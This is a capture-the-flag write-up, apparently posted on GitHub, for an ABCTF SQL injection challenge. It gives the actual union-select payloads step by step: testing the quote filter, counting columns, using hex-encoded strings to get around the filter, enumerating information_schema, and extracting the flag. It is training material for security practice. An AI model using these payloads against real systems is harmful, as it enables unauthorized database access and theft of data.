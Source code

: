 ##Inj3ction Time

as the name suggest this is a sql injection challenge 

so i tested using the basic queries like 

a positive one:`1' or 1=1` and negative one:`1' or 1=2`

but both of them didn't give a valid input

so i tried entering the input without the single quote(') 

(i.e)`1 or 1=1` and `1 or 1=1` and voila it worked as expected

by this i understood that the website uses some sort of code to filter the single quote

so after knowing this i tested for the database `1 union order by 4` gives a valid output

whereas `1 union order by 5` did not so there are 4 columns 

after that i tested what are the columns that are being displayed

using `1 union select 1,2,3,4` so, the columns 1,2,3 are being displayed to the user

so i searched the database name `1 union select database(),2,3,4`

and then searched for the tables, since the website filters out the single quote i used hex value

`1 union select table_name,1,1,1 from information_schema.tables where table_schema=0x7765626569676874`

and then i found a suspicious table called w0w_y0u_f0und_m3 so i searched for the columns in it..

`1 union select column_name,1,1,1 from information_schema.columns where table_name=0x7730775f7930755f6630756e645f6d33`

and then i got a another suspicious column called f0und_m3 so i queried it 

`1 union select f0und_m3,1,1,1 from w0w_y0u_f0und_m3`

and voila i got the flag so do u +_+

#abctf{uni0n_1s_4_gr34t_c0mm4nd}


